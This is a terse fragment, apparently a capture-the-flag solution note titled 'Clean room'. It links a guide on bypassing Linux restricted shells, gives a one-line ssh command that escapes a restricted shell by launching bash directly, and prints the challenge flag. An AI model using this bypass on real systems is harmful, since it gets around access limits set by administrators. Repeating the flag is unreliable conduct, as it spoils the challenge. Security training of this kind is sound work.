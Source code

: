 # Clean room

[reference](./44592-linux-restricted-shell-bypass-guide.pdf)

ssh "address" -t "bash"

`MCA{ieHaisoh4eif2ae}`
